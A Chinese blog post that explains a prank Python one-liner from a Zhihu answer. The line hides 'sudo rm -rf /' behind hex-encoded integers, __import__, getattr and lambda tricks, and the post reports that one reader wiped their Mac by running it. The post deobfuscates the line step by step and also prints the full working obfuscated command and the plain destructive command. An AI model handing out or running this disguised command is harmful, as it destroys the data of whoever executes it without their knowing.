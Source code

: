 ```yaml
---
title: Python 乱码指北：一行删掉根目录
date: 2017-03-14 08:47:51
tags: Python
---
```


之前在知乎看到一个问题：<a href="https://www.zhihu.com/question/37046157" target="_blank">「一行 Python 代码可以实现什么丧心病狂的功能？」</a>，我看着好玩，写了一个答案：

> ```Python
> (lambda _: getattr(__import__(_(28531)), _(126965465245037))(_(9147569852652678349977498820655)))((lambda ___, __, _: lambda n: ___(__(n))[_ << _:-_].decode(___.__name__))(hex, long, True))
> ```
> OS X、Linux 有效，需要管理员权限执行，效果感人。
>
> 作者：xlzd
> 链接：<a href="https://www.zhihu.com/question/37046157/answer/101660005" target="_blank">https://www.zhihu.com/question/37046157/answer/101660005</a>
> 来源：知乎
> 著作权归作者所有，转载请联系作者获得授权。



原本只是一个恶搞的小玩笑，没想到真的有一个小伙伴试过了这行代码。然后，他的 Mac 被删光了所有东西…… 

那么，这行代码是如何做到的呢？


<!--more-->


----------


其实并不复杂，不过是一些代码的伪装罢了。这行代码翻译为最直接版本，也仅仅两行：

```Python
import os
os.system('sudo rm -rf /')
```



第一步，我们要省去 `import`，改成使用 `__import__` 函数，它接受一个字符串，并返回这个模块本身：

```Python
__import__('os').system('sudo rm -rf /')
```


OK，现在已经变成一行了，下面要做的，就是让它越发的看不懂。具体的思路是将尽可能多的内容转换为字符串，然后对字符串做转型，通过 `getattr` 函数，可以改写为如下：

```Python
getattr(__import__('os'), 'system')('sudo rm -rf /')
```



到这一步，先明白一点是 `lambda` 函数可以定义与执行放在一起的。同时，在 Python 中，函数是可以作为参数传递的：

```
In [1]: (lambda n: n*2) (2)
Out[1]: 4

In [2]: (lambda f: f('10')) (int)
Out[2]: 10
```

到这里，想办法将上面三个字符串 `os`, `system`, `sudo rm -rf /` 不再直接写出，而是转换为数字，然后传入一个函数对数字解码到字符串，暂且不关注这个函数的具体定义和数字是什么，之前的代码可以改写如下：


```
(lambda decode: getattr(__import__( decode(NUM1) ), decode(NUM2))(decode(NUM3))) (decode_function)
```

已经与回答中的代码越来越像了。那么，如何将字符串映射到一个数字呢？
```
In [3]: 'hello, world.'.encode('hex')
Out[3]: '68656c6c6f2c20776f726c642e'

In [4]: int('hello, world.'.encode('hex'), 16)
Out[4]: 8271117963530313756381553648686L

In [5]: hex(8271117963530313756381553648686L)[2:-1].decode('hex')
Out[5]: 'hello, world.'
```

于是，上面的 `decode_function` 和对应的数字便可以轻松得到了：
```
In [6]: encode = lambda s:int(s.encode('hex'), 16)

In [7]: decode = lambda x: hex(long(x))[2:-1].decode('hex')

In [8]: encode('os')
Out[8]: 28531

In [9]: decode(28531)
Out[9]: 'os'

In [10]: encode('system')
Out[10]: 126965465245037

In [11]: decode(126965465245037)
Out[11]: 'system'

In [12]: encode('sudo rm -rf /')
Out[12]: 9147569852652678349977498820655L

In [13]: decode(9147569852652678349977498820655L)
Out[13]: 'sudo rm -rf /'
```

填充到刚才的代码中去：
```
(lambda decode: getattr(__import__( decode(28531) ), decode(126965465245037))(decode(9147569852652678349977498820655L))) (lambda x: hex(long(x))[2:-1].decode('hex'))
```

最后我们再将 `decode` 改装一下，比如 `2 == True << True`（`True == 1`），而 `-1 == -True`，而字符串 `hex` 则可以通过函数 `hex` 的 `__name__` 获得。由此，将其作为参数传入一个 lambda 函数，返回我们需要的 `decode` 函数，`decode` 就变成了这样：
```
(lambda ___, __, _: lambda n: ___(__(n))[_ << _:-_].decode(___.__name__))(hex, long, True)
```

组装到一起，将变量名变成下划线，就得到了最终结果：
```
(lambda _: getattr(__import__(_(28531)), _(126965465245037))(_(9147569852652678349977498820655)))((lambda ___, __, _: lambda n: ___(__(n))[_ << _:-_].decode(___.__name__))(hex, long, True))
```

**友情提示：请不要轻易尝试。**
